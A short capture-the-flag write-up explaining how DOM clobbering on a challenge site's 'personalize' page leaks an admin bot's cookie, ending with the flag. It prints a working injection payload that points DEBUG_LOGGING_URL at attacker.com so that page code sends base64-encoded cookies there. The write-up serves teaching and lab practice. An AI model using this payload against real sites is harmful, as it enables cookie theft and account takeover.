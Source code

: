 * Lets Define that!

Payload:
```
https://wsc-2022-web-2-bvel4oasra-uc.a.run.app/personalize?image=https://google.com/"><a id="DEBUG_MODE"><a id="DEBUG_LOGGING_URL" href="https://attacker.com">
```
* Here, Href is Used to set a value for the 
`DEBUG_LOGGING_URL`.

<img src="https://i.imgur.com/lWnC7G7.png">

* No Errors in Javascript Console!!

* Upon Looking the Network Tab,

<img src="https://i.imgur.com/ZMFYTv4.png">

* A GET Request to Attacker.com with `?auth=&image=(base64(imageURL))`

```js
if (DEBUG_MODE) {
        // In debug mode, send the image url to our debug endpoint for logging purposes.
        // We'd normally use fetch() but our CSP won't allow that so use an <img> instead.
        document.getElementById('body').insertAdjacentHTML('beforeend', `<img src="${DEBUG_LOGGING_URL}?auth=${btoa(document.cookie)}&image=${btoa(imgSrc)}">`)
    }
```
* `?auth` contains base64 Encoded cookie. Now, We dont Have any Cookies, So the The `?auth=` is Empty.

* Flag in the Admin bot cookie. In order to Get the Cookie, Send the about Payload to the Bot to get the Flag

>## flag: wsc{d0m_cl0bb3r1ng_15_fun}